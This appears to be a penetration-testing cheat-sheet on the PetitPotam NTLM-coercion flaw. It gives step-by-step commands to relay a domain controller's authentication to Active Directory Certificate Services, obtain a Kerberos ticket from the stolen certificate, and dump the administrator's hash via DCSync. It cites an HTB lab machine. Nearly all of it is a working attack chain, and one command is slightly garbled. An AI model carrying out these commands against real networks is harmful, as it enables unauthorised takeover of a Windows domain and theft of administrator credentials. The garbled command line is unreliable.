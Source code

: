 # PetitPotam

- PetitPotam is an LSA spoofing vulnerability that allows forcing the domain controller to authenticate against another host using NTLM over port 445
- This attack allows an unauthenticated user to take over the domain
- More information about PetitPotam can be found here: [DirkJanm Post](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)

**Exploiting PetitPotam:**
1. Start an NTLM relay: `sudo ntlmrelayx.py -debug -smb2support --target http://DOMAIN/URL/to/Certificate/Authoirty/host --adcs --template DomainController` Note: you can use [certi](https://github.com/zer1t0/certi) to find the location of the CA
2. Get Petit Potam: `git clone https://github.com/topotam/PetitPotam.git`
3. Run Petit Potam. `python3 PetitPotam.py attacker-ip dc-ip
4. If it worked, you will find the base64 encoded certificate for the domain controller on the NTLM relay shell
5. Request a TGT for the domain controller using the certificate: `python3 /PKINITtools/gettgtpkinit.py DOMAIN.NAME/DC-NAME\$ -pfx-base64 <base64 certificate> = dc01.ccache`
6. Set the KRB5CCNAME environment variable to the previous output file: `export KRB5CCNAME=dc01.ccache`
7. Perform DCSync using (`-k`) the previous ccache file : `secretsdump.py -just-dc-user DOMAIN.NAME/administrator -k -no-pass DC-NAME.DOMAIN.NAME`


### References
https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay

HTB Mist Machine

